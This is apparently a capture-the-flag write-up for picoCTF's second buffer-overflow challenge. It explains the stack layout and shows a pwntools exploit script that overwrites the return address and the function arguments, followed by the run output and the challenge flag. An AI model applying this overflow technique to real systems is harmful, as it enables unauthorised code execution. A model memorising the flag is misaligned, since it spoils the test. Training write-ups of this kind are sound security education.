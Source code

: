 # BOF 2

## Code inspection

Looking at the code, it's very similar to bof1, but now we also have to pass 2 arguments with a specific value to `win`.

## Memory layout

```
vuln_buff [100]  				[bp-108]
old_bx           				[bp-4]
old_bp  			<---- bp    [bp]
return address   				[bp + 4]
arg1			 				[bp + 8]
arg2			 				[bp + 12]

```

## Getting the flag

We would like to:
- Overwrite the 108 bytes of the vulnerable buffer
- Overwrite the old EBX value
- Overwrite the old EBP valeu
- Overwrite the return address to be the one of `win`
- Overwrite [bp + 8] to be 0xCAFEF00D
- Overwrite [bp + 12] to be 0xF00DF00D

Let's do that using the wonderful pwntools:

```python
from pwn import *

exploit_str = "1" * 104 + "3" * 4 + "2" * 4

conn = connect("saturn.picoctf.net", 63701)

print(conn.recvline().decode())

exploit_str = exploit_str.encode() + p64(0x08049296)
exploit_str += p32(0xcafef00d) + p32(0xf00df00d)

file = open("../pico/reaf_bof_2/bof2_exploit", "wb")
file.write(exploit_str)
file.close()

print("Sending {}".format(exploit_str))
conn.sendline(exploit_str)

print(conn.recv())
print(conn.recv())

conn.close()
```

We get:

```
[x] Opening connection to saturn.picoctf.net on port 63701
[x] Opening connection to saturn.picoctf.net on port 63701: Trying 18.217.86.78
[+] Opening connection to saturn.picoctf.net on port 63701: Done
Please enter your string: 

Sending b'1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111133332222\x96\x92\x04\x08\x00\x00\x00\x00\r\xf0\xfe\xca\r\xf0\r\xf0'
b'1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111133332222\x96\x92\x04\x08\n'
b'picoCTF{argum3nt5_4_d4yZ_b3fd8f66}'
[*] Closed connection to saturn.picoctf.net port 63701
```